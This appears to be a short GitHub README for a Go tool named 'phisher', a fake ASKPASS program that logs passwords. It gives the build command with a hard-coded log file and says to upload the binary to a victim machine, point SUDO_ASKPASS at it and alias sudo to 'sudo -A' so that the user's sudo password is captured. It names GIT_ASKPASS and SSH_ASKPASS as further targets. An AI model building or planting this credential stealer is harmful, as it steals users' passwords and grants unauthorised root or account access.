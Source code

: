 A logging ASKPASS binary

## Usage

Currently I'm baking in the logfile location since pipes and args are used by ASKPASS consumers.
Maybe adding the reading of ENV variables makes sense. PRs welcome.

You can modify source with the desired log path and recompile, or use the linker to override at compile-time

```bash
go build -o phisher -ldflags=-X main.filename=/tmp/sudo.log 
```

Upload to the machine whose sudo password you want logged and modify the user's ENV:


```
export SUDO_ASKPASS=/tmp/phisher
alias sudo='sudo -A'
```


Other potential targets variables

```
GIT_ASKPASS
SSH_ASKPASS
```
